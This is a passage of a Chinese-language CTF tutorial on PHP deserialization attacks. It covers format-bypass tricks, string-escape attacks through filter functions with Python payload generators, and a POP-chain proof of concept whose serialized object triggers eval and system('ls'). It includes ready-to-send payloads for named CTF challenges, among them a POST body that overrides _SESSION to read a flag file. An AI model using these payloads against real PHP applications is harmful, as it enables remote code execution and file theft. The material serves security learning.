$data='O:2:"Me":2:{s:4:"name";s:3:"bao";s:3:"age";s:2:"18";}baozongwi//';
var_dump(unserialize($data));
```

### 长度前面添加0

```php
<?php 
$data='O:2:"Me":2:{s:004:"name";s:3:"bao";s:00003:"age";s:2:"18";}';
var_dump(unserialize($data));
```

### S数据类型的字符串Hex编码

```php
<?php 
$data='O:2:"Me":2:{S:4:"\6e\61\6d\65";s:3:"bao";s:3:"age";s:2:"18";}';
var_dump(unserialize($data));
```

### 任意两个字符替换O之后的`:{`

```php
<?php 
$data='O:2:"Me":2XXS:4:"name";s:3:"bao";s:3:"age";s:2:"18";}';
var_dump(unserialize($data));
```

### 数字前面添加`+`

```php
<?php 
$data='O:2:"Me":2:{S:4:"name";s:3:"bao";s:3:"age";s:2:"18";}';
$a=preg_replace('/O:/','O:+',$data);
echo $a."\n";
```

## 字符串逃逸

这个可谓是常用的姿势了，那么原理是什么呢，为什么要逃逸字符串呢

> php在反序列化时，底层代码是以`;`作为字段的分隔，以`}`作为结尾，并且是**根据长度判断内容** ，同时反序列化的过程中必须严格按照序列化规则才能成功实现反序列化 。

这句话其实也就暗示了我们逃逸字符的目的以及操作就是进行**闭合**然后插入我们需要被反序列化的字符来成功攻击,而闭合我们需要知道一个前置知识

> 反序列化字符串都是以`";}`结束的

而为什么要逃逸字符呢，就是因为某些开发者，为了安全，进行了一下正则的匹配或者是替换又或者是使用了一些自定义函数来进行解决，但是实际上是可以利用逃逸字符达到反序列化目的，这就是其原因

### 字符增多

demo

```php
<?php
# show_source(__FILE__);
function filter($str){
    return str_replace('bb', 'ccc', $str);
}
class A{
    public $name='bao';
    public $pass='123456';
}
$AA=new A();
echo serialize($AA)."\n";
$res=filter(serialize($AA));
echo $res."\n";
$c=unserialize($res);
echo $c->pass;
```

然后我们测试一下怎么才能够逃逸

```php
<?php
# show_source(__FILE__);
function filter($str){
    return str_replace('bb', 'ccc', $str);
}
class A{
    public $name='baobb';
    public $pass='123456';
}
$AA=new A();
echo serialize($AA)."\n";
$res=filter(serialize($AA));
echo $res."\n";
$c=unserialize($res);
echo $c->pass;
/*
O:1:"A":2:{s:4:"name";s:5:"baobb";s:4:"pass";s:6:"123456";}
O:1:"A":2:{s:4:"name";s:5:"baoccc";s:4:"pass";s:6:"123456";}
```

可以看到是能够多一个字符那么我们正常的写出`payload`

```
";s:4:"pass";s:8:"baozongwi";}
```

写个EXP

```python
print(len('";s:4:"pass";s:9:"baozongwi";}'))
print('bb'*30+'";s:4:"pass";s:9:"baozongwi";}')
```

```php
<?php
# show_source(__FILE__);
function filter($str){
    return str_replace('bb', 'ccc', $str);
}
class A{
    public $name='bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb";s:4:"pass";s:9:"baozongwi";}';
    public $pass='123456';
}
$AA=new A();
echo serialize($AA)."\n";
$res=filter(serialize($AA));
echo $res."\n";
$c=unserialize($res);
echo $c->pass;
```

打入成功

这里的规律就是

> 原字符长度(这里就是所有bb的长度)+打入的payload长度=过滤后的长度(所有ccc的长度)

Demo：**ctfshow月饼杯web1_此夜圆**

```php
<?php
error_reporting(0);

class a
{
	public $uname;
	public $password;
	public function __construct($uname,$password)
	{
		$this->uname=$uname;
		$this->password=$password;
	}
	public function __wakeup()
	{
			if($this->password==='yu22x')
			{
				include('flag.php');
				echo $flag;	
			}
			else
			{
				echo 'wrong password';
			}
		}
	}

function filter($string){
    return str_replace('Firebasky','Firebaskyup',$string);
}

$uname=$_GET[1];
$password=1;
$ser=filter(serialize(new a($uname,$password)));
$test=unserialize($ser);
?>
```

这里要使得`password`等于`yu22x`

写出payload

```
";s:8:"password";s:5:"yu22x";}
```

exp

```python
print(len('";s:8:"password";s:5:"yu22x";}'))
print(15*"Firebasky"+'";s:8:"password";s:5:"yu22x";}')
```

直接打入即可,这里的代码可能有师傅会晕，也讲讲，为啥有个`serialize`呢

不要忘了我们刚才逃逸字符的过程也是`serialize`才逃逸出来的

### 字符减少

```php
<?php
show_source(__FILE__);
function str_rep($string){
	return preg_replace( '/php|test/','', $string);
}

$test['name'] = $_GET['name'];
$test['sign'] = $_GET['sign']; 
$test['number'] = '2020';
$temp = str_rep(serialize($test));
printf($temp);
$fake = unserialize($temp);
echo '<br>';
print("name:".$fake['name'].'<br>');
print("sign:".$fake['sign'].'<br>');
print("number:".$fake['number'].'<br>');
```

我们的目标就是修改number的值，先写`payload`

```
";s:6:"number";s:4:"2024";}
```

这里测试,首先都会被置换为空，那么我们写php就能逃逸3个字符，写test就能逃逸4个字符

那么这里有个小点子就是序列化的进程

当序列化遇到空值时，序列化并不会停止而是继续识别，然后将那一部分当做值



如图，我选中的部分就被当成了`name`的值

而后我们补上的sign就是可控的了，想怎么来就怎么来

只要相应的将前面的逃逸字符能够对上就够了

我们先构造出逃逸字符后面的payload，这里直接选中即可



补上之后，选中逃逸字符将要选中的字符计算长度

```python
print(len('";s:4:"sign";s:45:"'))
print(1*"php"+"test"*4)
```

那么成功打入啦

Demo:**[安洵杯 2019]easy_serialize_php**

```php
<?php

$function = @$_GET['f'];

function filter($img){
    $filter_arr = array('php','flag','php5','php4','fl1g');
    $filter = '/'.implode('|',$filter_arr).'/i';
    return preg_replace($filter,'',$img);
}


if($_SESSION){
    unset($_SESSION);
}

$_SESSION["user"] = 'guest';
$_SESSION['function'] = $function;

extract($_POST);

if(!$function){
    echo '<a href="index.php?f=highlight_file">source_code</a>';
}

if(!$_GET['img_path']){
    $_SESSION['img'] = base64_encode('guest_img.png');
}else{
    $_SESSION['img'] = sha1(base64_encode($_GET['img_path']));
}

$serialize_info = filter(serialize($_SESSION));

if($function == 'highlight_file'){
    highlight_file('index.php');
}else if($function == 'phpinfo'){
    eval('phpinfo();'); //maybe you can find something in here!
}else if($function == 'show_image'){
    $userinfo = unserialize($serialize_info);
    echo file_get_contents(base64_decode($userinfo['img']));
}
```

进入`phpinfo`拿`file`,`d0g3_f1ag.php`

首先直接写`payload`

```php
<?php
function filter($img){
    $filter_arr = array('php','flag','php5','php4','fl1g');
    $filter = '/'.implode('|',$filter_arr).'/i';
    return preg_replace($filter,'',$img);
}

$_SESSION["user"] = 'guest';
$_SESSION['function'] = $function;
$_SESSION['img']="ZDBnM19mMWFnLnBocA==";
$serialize_info = filter(serialize($_SESSION));
echo $serialize_info;
/*
a:3:{s:4:"user";s:5:"guest";s:8:"function";N;s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}
```

那么这里我们user是要进行字符逃逸的

我们要打入的payload

```
";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}
```

但是这里经过逃逸之后很明显差了一个属性，我们再补一个

```
";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:1:"1";s:1:"2";}
```

```php
<?php
function filter($img){
    $filter_arr = array('php','flag','php5','php4','fl1g');
    $filter = '/'.implode('|',$filter_arr).'/i';
    return preg_replace($filter,'',$img);
}

$_SESSION["user"] = 'flagflagflagflagflagphp';
$_SESSION['function'] = '";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:1:"1";s:1:"2";}';
$_SESSION['img']="ZDBnM19mMWFnLnBocA==";
$serialize_info = filter(serialize($_SESSION));
echo $serialize_info;
var_dump(unserialize($serialize_info));
```

成功，payload为

```
/index.php?f=show_image
POST:
_SESSION[user]=flagflagflagflagflagphp&_SESSION[function]=";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:1:"1";s:1:"2";}
```

得到这个

```php
<?php

$flag = 'flag in /d0g3_fllllllag';

?>
```

刚好20，直接改了打入即可

## pop链子

说实话，上面的都会了的话基本的pop链不被绕进去就行

这里给大家说了找pop链的技巧就是，反向找

先看一遍代码之后知道那个类里面有哪些魔术方法，怎么触发，然后直接锁定危险函数，比如写入文件、执行代码、读取文件等等函数，进行反向构造pop链，然后再利用魔术方法的触发进行打入，这里就讲一个Demo(个人认为基础且完整的pop)

**[2022DASCTF X SU 三月春季挑战赛]ezpop**

```php
<?php

class crow
{
    public $v1;
    public $v2;

    function eval() {
        echo new $this->v1($this->v2);
    }

    public function __invoke()
    {
        $this->v1->world();
    }
}

class fin
{
    public $f1;

    public function __destruct()
    {
        echo $this->f1 . '114514';
    }

    public function run()
    {
        ($this->f1)();
    }

    public function __call($a, $b)
    {
        echo $this->f1->get_flag();
    }

}

class what
{
    public $a;

    public function __toString()
    {
        $this->a->run();
        return 'hello';
    }
}
class mix
{
    public $m1;

    public function run()
    {
        ($this->m1)();
    }

    public function get_flag()
    {
        eval('#' . $this->m1);
    }

}

if (isset($_POST['cmd'])) {
    unserialize($_POST['cmd']);
} else {
    highlight_file(__FILE__);
}
```

```
fin.__destruct->what.__toString->run()->crow.__invoke->fin.__call->__get_flag
```

poc

```php
<?php

class crow
{
    public $v1;
    public $v2;

    function eval() {
        echo new $this->v1($this->v2);
    }

    public function __invoke()
    {
        $this->v1->world();
    }
}

class fin
{
    public $f1;

    public function __destruct()
    {
        echo $this->f1 . '114514';
    }

    public function run()
    {
        ($this->f1)();
    }

    public function __call($a, $b)
    {
        echo $this->f1->get_flag();
    }

}

class what
{
    public $a;

    public function __toString()
    {
        $this->a->run();
        return 'hello';
    }
}
class mix
{
    public $m1;

    public function run()
    {
        ($this->m1)();
    }

    public function get_flag()
    {
        eval('#' . $this->m1);
    }

}
$a=new fin();
$a->f1=new what();
$a->f1->a=new mix();
$a->f1->a->m1=new crow();
$a->f1->a->m1->v1=new fin();
$a->f1->a->m1->v1->f1=new mix();
$a->f1->a->m1->v1->f1->m1="?><?php system('ls');?>";
//绕过的方法很多 \n \r 闭合等等
echo urlencode(serialize($a));
```

这里查看目录之后发现是个sh文件，直接打一个`nl *`,就可以了

# 0x03 小结

算是理了一下，更加清楚部分知识了，这里大部分讲的都是基础原理，环境基本找不到相同的，比如字符逃逸，之前nep那个，类似逃逸字符串，但是无所谓，只要知道原理还是能够很快理清打通
